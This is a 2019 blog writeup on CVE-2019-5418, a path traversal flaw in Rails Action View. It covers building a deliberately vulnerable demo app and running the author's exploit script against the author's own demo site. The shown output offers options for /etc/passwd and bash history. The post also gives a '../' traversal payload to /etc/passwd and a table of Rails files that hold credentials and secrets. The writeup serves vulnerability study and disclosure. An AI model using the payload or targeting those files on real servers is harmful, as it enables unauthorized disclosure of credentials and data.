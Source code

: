 ```yaml
---
excerpt: Reproducution and demonistration of the vulnerablity
layout: post
date: 2019-04-7
comments: false
title: RailRoadBandit CVE-2019-5418
tags:
  - ruby
  - CVE
  - demo
image: /images/ruby_on_rails.png
category: writeup
---
```


## introduction:

There is a File Content Disclosure vulnerability in Action View affecting Rails versions &lt;5.2.2.1, &lt;5.1.6.2, &lt;5.0.7.2, &lt;4.2.11.1. Specially crafted accept headers in combination with calls to '''render file: '''can cause arbitrary files on the target server to be rendered, disclosing the file contents. The impact is limited to calls to '''render''' which render file contents without a specified accept format.

## What is Rails?

Ruby on Rails, or Rails, is a server-side web application framework written in Ruby that uses the model–view–controller \(MVC\) structure pattern, providing default structures for a database, a web service, and web pages. ![](https://github.com/Bad3r/Bad3r-blog/tree/501930b64c6ef02b40e53942547eaa8a7be319a6/_posts/%7B%7B)

Rails is used to build full web applications like \(Basecamp, GitHub, Shopify, Airbnb, Twitch, SoundCloud, Hulu, Zendesk, Square, Cookpad.\)

### Path Traversal:

This vulnerability is a path traversal vulnerability \([OWASP Top 10: A5:2017-Broken Access Control](https://www.owasp.org/index.php/Top_10-2017_A5-Broken_Access_Control)\) A path traversal attack \(also known as directory traversal\) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash \(../\)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control \(such as in the case of locked or in-use files on the Microsoft Windows operating system\).

This attack is also known as “dot-dot-slash,” “directory traversal,” “directory climbing” and “backtracking.” source: [OWASP Path Traversal](https://www.owasp.org/index.php/Path_Traversal)

### reproducing:

To demonstrate the vulnerability, i bult a Ruby on Rails site: [bandit.bad3r.xyz](http://bandit.bad3r.xyz/) you can clone my site and run it locally by installing Ruby on Rails then cloning my repo [Bad3r/RailRoadBandit](https://github.com/Bad3r/RailroadBandit) Digital Ocean has an excellent guide to get you started make sure to install a vulnerable Rails \(e.g 5.2.1\):  [How To Install Ruby on Rails with rbenv on Ubuntu 18.04](https://www.digitalocean.com/community/tutorials/how-to-install-ruby-on-rails-with-rbenv-on-ubuntu-18-04) you can also create your demo manually by editing the default application controller in

```text
<web root folder>/app/controllers/application_controller.rb
```

open the file and add a call to "render file:"

```ruby
class ApplicationController < ActionController::Base
    def index
        render file:  "#{Rails.root}/public/bandit/bandit.html"
    end
end
```

here am just rendering an html file but you can also render any text fle.then edit the route file located in

```text
<web root folder>/config/routes.rb
```

to add a route for the controller:

```ruby
Rails.application.routes.draw do
    get 'application/index' => 'application#index'
    root 'application#index'
end
```

thats all you need to follow this demo. you should check if the file is rendered correctly and the route.rb config is correct.

### Exploiting the vulnerability

the script used in the demo is available in my Github repo [Bad3r/RailRoadBandit](https://github.com/Bad3r/RailroadBandit) run the script using the format:

```bash
┌ ~/RailroadBandit
└> % python3 Bandit.py http://bandit.bad3r.xyz/
```

then you will see a menu of builtin options to view some sensetive data:

```bash
└> % python3 Bandit.py http://bandit.bad3r.xyz/

    ----------------------------------------------
    Arbitrary Traversal exploit for Ruby on Rails
                     CVE-2019-5418
    ----------------------------------------------


             Enter an option or a file path (enter quit or q to exit)

             enter 1 for /etc/passwd 

             enter 2 for /proc/cpuinfo 

             enter 3 for bash history 

             enter 4 to brute force:
```

you can use one of the builtin options or give the path for the file manually

```bash
../../../../../../../../../etc/passwd
```

here we use ../ for directory traversal, the result is: ![](https://github.com/Bad3r/Bad3r-blog/tree/501930b64c6ef02b40e53942547eaa8a7be319a6/_posts/%7B%7B)

am working on adding more features to the script like brute forcing the web root diretory name.

### Ruby on Rails sensitive files

there is some important files in ruby on rails that can also reveal sensitive information like:

| File | Description |
| :--- | :---: |
| /config/database.yml | May contain production credentials |
| /config/initializers/secret\_token.rb | Contains a secret used to hash session cookie |
| db/seeds.rb | May contain seed data including bootstrap admin user |
| /db/development.sqlite3 | May contain the SQL database |
| ---- |  |

### Patch

[https://github.com/rails/rails/commit/f4c70c2222180b8d9d924f00af0c7fd632e26715](https://github.com/rails/rails/commit/f4c70c2222180b8d9d924f00af0c7fd632e26715) ![](https://github.com/Bad3r/Bad3r-blog/tree/501930b64c6ef02b40e53942547eaa8a7be319a6/_posts/%7B%7B)

